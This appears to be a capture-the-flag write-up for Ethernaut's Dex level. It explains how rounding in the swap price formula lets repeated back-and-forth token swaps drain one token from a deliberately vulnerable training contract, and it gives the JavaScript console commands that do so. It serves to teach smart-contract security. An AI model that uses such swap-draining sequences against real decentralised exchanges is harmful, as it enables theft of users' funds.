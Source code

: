 # Level 22: [Dex](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008)

## Level objectives:
Drain one of the tokens from dex.
## Analysis
- Similar to JS's floating point errors, solidity has rounding errors.
- Sol always rounds towards zero.
- So, by making many token swaps from token1 to token2 and back, we can decrease the total balance of one of the tokens in the contract to zero. The precision loss will automatically do the job for us. 
## Code:
```js
await contract.approve(contract.address, 500); 

const token1 = await contract.token1();
const token2 = await contract.token2();

contract.swap(token1, token2, 10);
contract.swap(token2, token1, 20);
contract.swap(token1, token2, 24);
contract.swap(token2, token1, 30);
contract.swap(token1, token2, 41);
contract.swap(token2, token1, 45);

// verify using:
await contract.getSwapPrice(token1, token2, 1);
await contract.getSwapPrice(token2, token1, 1);
```
